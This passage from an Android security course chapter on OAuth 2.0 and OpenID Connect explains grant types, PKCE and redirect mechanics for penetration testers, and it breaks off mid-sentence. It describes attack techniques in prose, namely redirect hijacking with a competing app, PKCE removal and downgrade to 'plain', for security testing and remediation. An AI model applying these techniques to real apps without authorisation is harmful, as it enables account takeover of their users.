# 45 — OAuth 2.0 and OpenID Connect on Android

> After this chapter you will be able to take any Android application that says "Sign in with
> Google", "Connect your bank", or "Log in with SSO", intercept the entire authorisation flow,
> identify which grant type it uses, decide in under a minute whether that grant is appropriate,
> prove whether PKCE is *enforced* rather than merely *present*, hijack its redirect with a competing
> app you wrote yourself, and write the remediation as code.

**Prerequisites:** [26-Intent](../26-Intent/README.md), [35-SSL](../35-SSL/README.md),
[43-WebView](../43-WebView/README.md), [44-NetworkSecurityConfig](../44-NetworkSecurityConfig/README.md)
**Related:** [46-Tokens](../46-Tokens/README.md), [47-Authentication](../47-Authentication/README.md)
**Applies to:** Android 5–16 (API 21–36). AppAuth-Android 0.11+; Custom Tabs from API 15 via
AndroidX; Android App Links verification from API 23, with automatic verification tightened in
API 31.

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [High-Level Architecture](#2-high-level-architecture)
3. [Deep Internal Working](#3-deep-internal-working)
4. [Source Code Walkthrough (AOSP)](#4-source-code-walkthrough-aosp)
5. [Security Perspective](#5-security-perspective)
6. [Reverse Engineering Perspective](#6-reverse-engineering-perspective)
7. [Dynamic Analysis](#7-dynamic-analysis)
8. [Static Analysis](#8-static-analysis)
9. [Examples](#9-examples)
10. [Common Interview Questions](#10-common-interview-questions)
11. [Common Mistakes](#11-common-mistakes)
12. [Hands-on Labs](#12-hands-on-labs)
13. [Summary](#13-summary)
14. [References](#14-references)

---

## 1. Introduction

### The problem that existed before OAuth

Imagine it is 2006. You have just signed up for a photo-printing website, and it wants to print the
pictures you keep in your webmail account. There is exactly one way for it to get them: you type your
webmail **username and password** into the printing site's form, and the printing site logs into your
webmail as you.

Think about what you have just done.

- You gave a third party your **password**, which is the same password you probably use to reset every
  other account you own.
- You gave it **unlimited** access. It can read your mail, send mail as you, delete your account.
- You gave it **permanent** access. The only way to revoke it is to change your password, which breaks
  every other place you typed that password.
- You have **no record** of what it did, because everything it did looks exactly like you doing it.
- If the printing site is breached, your webmail password is in the breach dump.

This was the actual state of the world. It had a name — the "password anti-pattern" — and it was
everywhere.

> **🧠 Mental Model — the valet key**
> Many cars ship with two keys. The **owner's key** opens everything: doors, boot, glovebox, and it
> starts the engine with no restriction. The **valet key** starts the engine and opens the driver's
> door, but it will not open the boot or the glovebox, and on some cars the engine management limits
> the speed. You hand the valet key to a stranger in a car park precisely because it is *not* the
> owner's key.
>
> OAuth is a protocol for manufacturing valet keys on demand. The photo-printing site never sees your
> webmail password (the owner's key). It receives a token (the valet key) that says "may read photos,
> for this user, for the next hour, and the user can shred it at any time". Every design decision in
> OAuth 2.0 follows from that one idea, and every OAuth vulnerability you will ever find is a case
> where somebody accidentally handed over the owner's key, or where somebody accepted a valet key
> without checking whose car it belonged to.

### What OAuth is, precisely

> **📖 Definition — OAuth 2.0**
> OAuth 2.0 (RFC 6749) is an **authorisation delegation framework**. It defines how a piece of
> software can obtain limited, scoped, time-bounded access to a resource owned by a user, on that
> user's behalf, without ever handling the user's primary credentials.

Read that definition twice, because two words in it are the source of endless confusion.

**"Authorisation", not "authentication".** OAuth answers the question *"is this software allowed to
do X to this resource?"*. It does **not**, by itself, answer *"who is the human here?"*. People built
login systems on top of raw OAuth anyway, got it wrong in interesting ways, and the industry response
was OpenID Connect — a thin, well-specified authentication layer on top of OAuth 2.0. We cover it in
[section 3.12](#312-openid-connect-oidc--authentication-done-properly).

**"Framework", not "protocol".** RFC 6749 deliberately leaves choices open: token format, token
lifetime, how the resource server validates a token, how a client registers. That flexibility is why
OAuth is everywhere, and it is also why two OAuth deployments can both be spec-compliant and one of
them can be catastrophically insecure. As a tester, "it follows RFC 6749" is never an answer to
"is it secure".

### The four roles

Everything in OAuth is a conversation between four parties. Learn these names; the rest of the
chapter uses them constantly.

| Role | RFC 6749 name | Plain English | In a typical Android engagement |
|---|---|---|---|
| The human | **Resource Owner** | The person who owns the data and can grant access | The app's user, holding the phone |
| The software wanting access | **Client** | The application asking for a token | The Android app under test |
| The thing that issues tokens | **Authorization Server (AS)** | The identity provider; it authenticates the human and mints tokens | `accounts.google.com`, Okta, Auth0, Keycloak, the bank's own IdP |
| The thing holding the data | **Resource Server (RS)** | The API that accepts a token and returns data | `api.thebank.com`, Google's Gmail API |

The AS and RS are frequently operated by the same company and sometimes by the same server process,
but they are **logically distinct**, and several important attacks (mix-up attacks, audience
confusion) exist precisely because a resource server forgot that a token might have been issued for a
*different* resource server.



The client is coloured as attacker-relevant because on mobile, **the client is the component you can
fully control**. It runs on a device the attacker holds, its code can be read, its memory can be
modified, and its storage can be dumped. Hold that thought — it is the single most important fact in
this chapter.

### Why Android makes OAuth harder than the web

A browser-based web application has a place to keep secrets: the server. When `example.com`'s
JavaScript needs to exchange an authorisation code for a token, the exchange happens on
`example.com`'s backend, using a client secret that never leaves the data centre.

An Android app has no such place.

> **⚠️ Warning — the fundamental mobile truth**
> **A mobile app cannot hold a client secret.** Any byte sequence compiled into an APK, stored in
> `strings.xml`, hidden in a native `.so`, split across three arrays and XOR-ed at runtime, or fetched
> at first launch and cached, is available to anyone who owns the device. It is not "hard to find". It
> is **public**, with the only variable being how many minutes of your time it costs to extract. Every
> single design decision in the rest of this chapter follows from this. If you take one sentence away
> from chapter 45, take this one.

The second Android-specific complication is the **redirect**. On the web, the authorisation server
redirects the browser back to a URL that the client's *server* controls, and DNS plus TLS guarantee
that only the real client receives it. On Android, the authorisation server redirects to something
that has to reach *an app on the device*, and the mechanisms for that — custom URI schemes, App
Links, loopback ports — have wildly different security properties. An enormous fraction of real-world
mobile OAuth findings live in that redirect.

The third complication is **where the user types their password**. A web client sends the user to the
identity provider's own origin; the browser's address bar and the same-origin policy protect the
password. An Android app *can* do the equivalent (Custom Tabs), or it can open a `WebView` it fully
controls and read every keystroke. Both look identical to the user. One of them is a finding.

### What you will be able to do

By the end of this chapter you will be able to look at a captured authorisation request such as:

```
https://login.example.com/authorize
  ?response_type=code
  &client_id=android-prod-4471
  &redirect_uri=exampleapp%3A%2F%2Foauth%2Fcallback
  &scope=openid%20profile%20accounts.read%20accounts.write
  &state=8f2c...
  &code_challenge=E9Melhoa2OwvFrEMTJguCHaoeK1t8URWbuGJSstw-cM
  &code_challenge_method=S256
```

…and, in under sixty seconds, tell the client: which grant this is, whether it is the right grant,
whether the redirect target is hijackable by any app on the device, whether the scope set is larger
than the app's function requires, whether `state` is actually validated or merely present, and —
critically — whether the server would still issue a token if you deleted `code_verifier` from the
token request entirely.

That last check is the difference between a report that says "PKCE is implemented" and a report that
says "PKCE is implemented but not enforced; authorisation code interception yields a full account
takeover". Only one of those is worth money.

---

## 2. High-Level Architecture

### 2.1 The complete Android OAuth topology



Walk through what that picture is telling you, because each numbered arrow is a distinct test.

**Arrow 1** is the app launching the authorisation request. The critical question is *what* it
launches into: a Custom Tab (correct), the system browser via a plain `ACTION_VIEW` intent
(acceptable), or an in-app `WebView` (a finding — see [3.9](#39-custom-tabs-versus-webview)).

**Arrows 2 and 3** are ordinary HTTPS, which means a test device with a proxy CA installed sees the
full request and the full redirect. This is where you read every parameter.

**Arrows 4 and 5** are the heart of Android-specific OAuth risk. The redirect is not delivered over
the network to your app; it is delivered by `PackageManagerService`'s intent resolver to *whichever
app on the device claims that URI*. If the redirect is `exampleapp://oauth/callback`, **any app can
claim it**, including one you install during the test. Arrow 5b is the attack.

**Arrow 6** is the token exchange. The single most valuable test in the entire chapter happens here:
remove `code_verifier` and see whether the server still returns a token.

**Arrow 8** and the `STORE` box hand off to [46-Tokens](../46-Tokens/README.md), which is where a
successfully obtained token becomes a durable compromise.

### 2.2 The trust boundaries, drawn explicitly

```mermaid
flowchart LR
    subgraph Untrusted["Untrusted zone — attacker has full control"]
        A1["APK bytes"]
        A2["App process memory"]
        A3["App private storage"]
        A4["The device's intent resolution"]
        A5["Anything you compiled in,<br/>including 'client secrets'"]
    end
    subgraph Semi["Semi-trusted — user-visible, browser-enforced"]
        B1["Custom Tab / system browser"]
        B2["Browser cookie jar"]
        B3["TLS + address bar"]
    end
    subgraph Trusted["Trusted zone — server side, attacker cannot modify"]
        C1["Authorization Server logic"]
        C2["PKCE verification"]
        C3["redirect_uri allow-list"]
        C4["Token issuance & audience"]
        C5["Resource Server authorisation"]
    end

    Untrusted --> Semi --> Trusted

    style A1 fill:#f9d0d0
    style A2 fill:#f9d0d0
    style A3 fill:#f9d0d0
    style A4 fill:#f9d0d0
    style A5 fill:#f9d0d0
```

Every security property that matters must be enforced in the green zone on the right. If a control
lives in the red zone, it is not a control, it is a suggestion. When you review an OAuth
implementation, mentally place each check in one of these three columns. "The app validates `state`
before proceeding" is a red-zone check — useful against a *network*-positioned attacker, useless
against an attacker who owns the device. "The AS rejects a token request whose `code_verifier` does
not hash to the stored `code_challenge`" is a green-zone check, and it is the one that actually stops
authorisation code interception.

### 2.3 Where the pieces live on the device



That last row explains a phenomenon you will see constantly during testing: you log the user out of
the app, tap "Sign in with Google" again, and it silently completes with **no prompt**. The app's
tokens were cleared, but the authorisation server's session cookie still lives in the browser's
cookie jar, so `/authorize` returns a fresh code immediately. Whether that is a finding depends
entirely on context — it is convenient and normal for a consumer app, and it is a serious issue for a
shared-device banking app. Know the mechanism so you can argue either way with evidence.

### 2.4 Grant-type decision tree



There is one correct answer for a normal Android application and it is **authorisation code with
PKCE**. If you find anything else in a mobile app, your first question is "why", and the answer is
almost always "because this code was copied from a server-side tutorial" or "because the vendor's SDK
is ten years old". RFC 8252, *OAuth 2.0 for Native Apps*, is the BCP that says this, and it is worth
reading in full — it is short.

---

## 3. Deep Internal Working

This is the longest section in the chapter. It covers every grant type with a full sequence diagram
and a verdict, then PKCE, then the Android-specific machinery that carries the redirect, then
OpenID Connect.

### 3.1 The endpoints, and what each one is for

Before the grants, learn the URLs. Every authorisation server exposes some subset of these.

| Endpoint | Method | Purpose | Who calls it | Spec |
|---|---|---|---|---|
| `/authorize` | GET (browser) | Start a flow; authenticate the user; obtain consent; return a code or token via redirect | The **user agent** (browser), never the app directly | RFC 6749 §3.1 |
| `/token` | POST (back channel) | Exchange a code, refresh token, or credentials for tokens | The **client** (your app) | RFC 6749 §3.2 |
| `/introspect` | POST | Ask the AS whether an opaque token is still valid and what it grants | The **resource server** | RFC 7662 |
| `/revoke` | POST | Invalidate a token | The client (logout) | RFC 7009 |
| `/userinfo` | GET/POST | Return claims about the authenticated user | The client, with an access token | OIDC Core §5.3 |
| `/.well-known/openid-configuration` | GET | Machine-readable description of every other endpoint and supported feature | The client, at startup | OIDC Discovery |
| `/.well-known/oauth-authorization-server` | GET | Same idea for plain OAuth 2.0 | The client | RFC 8414 |
| `/jwks` (URL comes from discovery) | GET | The AS's public signing keys, as a JWKS | The client and the RS, to validate signatures | RFC 7517 |
| `/par` | POST | Pushed Authorisation Request — the client pushes parameters to the AS and gets back a one-time `request_uri` | The client | RFC 9126 |
| `/device_authorization` | POST | Start a device grant | The client | RFC 8628 |

> **🔍 Pentester's Note**
> The discovery document is the fastest reconnaissance you will ever do. One `curl` gives you every
> endpoint, every supported grant type, every supported signing algorithm, and — crucially —
> `code_challenge_methods_supported`. If that array contains `"plain"`, note it. If the document
> advertises `"token"` or `"id_token token"` in `response_types_supported`, the implicit grant is
> still enabled server-side even if this particular app does not use it.
> ```bash
> # host
> curl -s https://login.example.com/.well-known/openid-configuration | jq .
> ```

The **channel** distinction in the table matters enormously. `/authorize` is a **front-channel**
endpoint: parameters travel through the user's browser, appear in the address bar, end up in browser
history, and are visible to anything that can observe the redirect. `/token` is a **back-channel**
endpoint: a direct HTTPS POST from the app to the AS, observed by nobody in a normal deployment.
Never put a secret in a front-channel parameter. The entire reason the implicit grant is dead is that
it returned an access token through the front channel.

### 3.2 Grant type 1 — Authorisation Code (without PKCE)



**What the code is.** The authorisation code is a short-lived (typically 30–600 seconds),
single-use, opaque string. It is not a token; it is a *claim ticket* for a token. Splitting the flow
in two like this exists for one reason: it keeps the actual token off the front channel, out of the
address bar, out of browser history, and out of `Referer` headers.

**Why it is not enough on mobile.** On a web client, the token exchange in step 12 is authenticated
by a client secret, so an attacker who steals the code cannot redeem it. On a mobile client there is
no usable secret (see the Warning in section 1), so **anyone holding the code can redeem it**. And on
Android, "holding the code" is exactly what a malicious app achieves by registering the same custom
scheme.

| Property | Verdict for Android |
|---|---|
| Front-channel token exposure | None — good |
| Requires a client secret to be secure | Yes — **fatal on mobile** |
| Protects against code interception | No |
| **Mobile suitability** | ❌ **Not sufficient on its own. Must be combined with PKCE.** |

### 3.3 Grant type 2 — Authorisation Code with PKCE (the correct choice)



That diagram is the most important one in the chapter. Read the `alt` block again. **PKCE turns a
stolen authorisation code into a worthless string**, because redeeming a code requires proving
knowledge of a secret that never left the legitimate app's memory.

> **📖 Definition — PKCE**
> Proof Key for Code Exchange (RFC 7636, pronounced "pixy"). The client invents a fresh random secret
> per authorisation request, called the **code_verifier**. It sends only a *transformation* of that
> secret — the **code_challenge** — through the front channel. At token exchange it presents the
> original verifier over the back channel. The authorisation server re-applies the transformation and
> compares. Because the challenge is a one-way hash, seeing it on the front channel tells an attacker
> nothing about the verifier.

**The `code_verifier`, byte by byte.** RFC 7636 §4.1 specifies it exactly:

| Property | Requirement | Why |
|---|---|---|
| Character set | `[A-Za-z0-9-._~]` — unreserved URL characters | So it survives URL encoding without ambiguity |
| Minimum length | 43 characters | 43 base64url characters ≈ 256 bits of entropy |
| Maximum length | 128 characters | Keeps request sizes bounded |
| Source | **Cryptographically secure RNG** | The whole security property is entropy |
| Lifetime | One authorisation request | Reuse would allow a replay |

The canonical construction, and the one AppAuth uses:

```java
// Android — correct code_verifier and S256 challenge generation
SecureRandom sr = new SecureRandom();
byte[] entropy = new byte[64];              // 512 bits, comfortably above the minimum
sr.nextBytes(entropy);
String codeVerifier = Base64.encodeToString(
        entropy, Base64.URL_SAFE | Base64.NO_WRAP | Base64.NO_PADDING);

MessageDigest sha256 = MessageDigest.getInstance("SHA-256");
sha256.update(codeVerifier.getBytes(StandardCharsets.US_ASCII)); // ASCII, not UTF-16
String codeChallenge = Base64.encodeToString(
        sha256.digest(), Base64.URL_SAFE | Base64.NO_WRAP | Base64.NO_PADDING);
```

Three details in that snippet cause real bugs when they are wrong. `NO_WRAP` prevents newlines being
inserted into the value. `NO_PADDING` strips the `=` characters, which RFC 7636 requires. And the
verifier must be hashed as **ASCII bytes of the base64url string**, not as the raw entropy — a
surprising number of hand-rolled implementations hash the wrong thing and then "fix" it by falling
back to `plain`.

**S256 versus plain.**

| `code_challenge_method` | Challenge value | Attacker who sees the front channel learns | Verdict |
|---|---|---|---|
| `S256` | `BASE64URL(SHA256(ASCII(verifier)))` | Nothing useful — a hash | ✅ Required for anything real |
| `plain` | The verifier itself, unchanged | **The verifier** | ❌ Nearly useless |

> **⚠️ Warning — why `plain` is nearly useless**
> `plain` was included in RFC 7636 only for constrained clients that genuinely could not compute
> SHA-256, and the RFC explicitly says S256 is mandatory to implement for servers and that clients
> must use S256 if they can. With `plain`, the code_challenge *is* the code_verifier, travelling in
> the clear through the front channel. An attacker who can intercept the redirect — which is exactly
> the attacker PKCE was invented to stop — sees both the code and the verifier in the same place.
> PKCE with `plain` protects you only against an attacker who can read the `/authorize` **response**
> but not the **request**, which is a strange and narrow threat model.
>
> There is a second, subtler reason `plain` matters to you as a tester: a server that accepts
> `code_challenge_method=plain` will accept a **downgrade**. If the app sends S256 but the server
> honours a request where you rewrite the method to `plain` and set the challenge to a value you
> chose, you have defeated PKCE entirely. Test it.

**What attack does PKCE stop?** Precisely one, and it is worth naming exactly: **authorisation code
interception by a party who can observe or capture the redirect**. On Android that party is:

- A malicious app that registered the same custom URI scheme.
- A malicious app holding the `QUERY_ALL_PACKAGES`-adjacent visibility to intercept an implicit intent.
- Anything that can read the browser's history or a log line containing the redirect URL.
- On older or misconfigured setups, an OS-level component that logs intents.

PKCE does **not** stop: token theft from storage, a malicious app that reads the token after the
exchange, phishing the user's password in a WebView, or a compromised authorisation server. Be
precise about this in reports. "The app implements PKCE" does not mean "the app is secure".

| Property | Verdict for Android |
|---|---|
| Needs a client secret | No — this is the point |
| Front-channel token exposure | None |
| Protects against code interception | **Yes, if enforced server-side** |
| **Mobile suitability** | ✅ **The correct choice. RFC 8252 mandates it.** |

### 3.4 Grant type 3 — Implicit (dead, and why)



The implicit grant existed because in 2012, browser JavaScript could not make cross-origin POST
requests to a token endpoint (CORS was young). It skipped the code entirely and returned the access
token directly in the URL fragment.

Everything about that is wrong on mobile:

| Problem | Consequence |
|---|---|
| The access token travels on the front channel | Any app that can intercept the redirect gets a **live token**, not a code that PKCE could neutralise |
| The token appears in a URI | It lands in browser history, in `Referer` headers if the page makes any request, and in any log that records intent URIs |
| No back-channel step | There is **no place to put PKCE**. The mitigation cannot be applied |
| No refresh token is issued | Forces long-lived access tokens, which makes the leak worse |
| No client authentication of any kind | Nothing distinguishes the real client |

The IETF's *OAuth 2.0 Security Best Current Practice* and the OAuth 2.1 draft both remove the
implicit grant. RFC 8252 forbade it for native apps years earlier.

> **🔍 Pentester's Note**
> You will still find it. The tell is `response_type=token` or `response_type=id_token token` in the
> `/authorize` request, and a redirect whose **fragment** (after `#`) contains `access_token=`. When
> you see it, the finding is not "the app uses a deprecated grant" — that is a hygiene note. The
> finding is "an access token is delivered over an interceptable channel to a redirect target that any
> app on the device can claim", which you then **prove** with the competing-scheme app from
> [Lab 03](labs/lab-03-scheme-hijack.md). Severity follows the proof, not the deprecation notice.

| Property | Verdict for Android |
|---|---|
| **Mobile suitability** | ❌ **Dead. Removed from OAuth 2.1. Report its use.** |

### 3.5 Grant type 4 — Resource Owner Password Credentials (ROPC) (dead, and why apps still ship it)



ROPC hands the user's password to the client. That is the password anti-pattern from section 1,
reintroduced with a `grant_type` parameter attached to make it look official.

**Why do apps still ship it?** Not out of ignorance, usually. There are three real reasons, and you
should know them so your report addresses the actual constraint rather than lecturing:

1. **Brand control.** Product teams hate that a Custom Tab shows a browser chrome and a URL bar.
   They want a login screen with their own fonts and their own animation. ROPC gives them a native
   form. This is the number one reason by a wide margin.
2. **Legacy migration.** The app previously posted credentials to a bespoke `/login` endpoint. Moving
